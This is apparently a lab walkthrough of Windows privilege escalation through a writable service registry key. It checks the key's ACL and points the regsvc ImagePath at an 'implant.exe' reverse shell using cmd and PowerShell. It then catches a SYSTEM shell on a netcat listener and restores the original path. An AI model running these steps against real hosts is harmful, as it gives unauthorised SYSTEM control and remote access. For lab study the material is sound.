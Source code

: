 ```
PS C:\> Get-ACL hklm:\system\currentcontrolset\services\regsvc | Format-List AccessToString
```

## 02 - Exploit

```
$ sudo nc -lnvp 53
```

- In command prompt

```
C:\> copy implant.exe c:\temp\registry-query.exe

C:\> reg add hklm\system\currentcontrolset\services\regsvc /v imagepath /t reg_expand_sz /d c:\temp\registry-query.exe /f

C:\> net start regsvc
```

- In powershell

```
PS C:\> copy-item implant.exe c:\temp\registry-query.exe

PS C:\> set-itemproperty -force -path hklm:\system\currentcontrolset\services\regsvc -name imagepath -type expandstring -value c:\temp\registry-query.exe

PS C:\> start-service regsvc
```

```
$ sudo nc -lnvp 53
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::53
Ncat: Listening on 0.0.0.0:53
Ncat: Connection from 10.10.186.48.
Ncat: Connection from 10.10.186.48:49914.
Microsoft Windows [Version 10.0.17763.737]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32> whoami
nt authority\system
```

## 03 - Cleanup

Now we have to revert back the modifications we've made by using the same command.

- In command prompt

```
C:\Windows\system32> reg add hklm\system\currentcontrolset\services\regsvc /v imagepath /t reg_expand_sz /d "C:\Program Files\Insecure Registry Service\insecureregistryservice.exe" /f
```
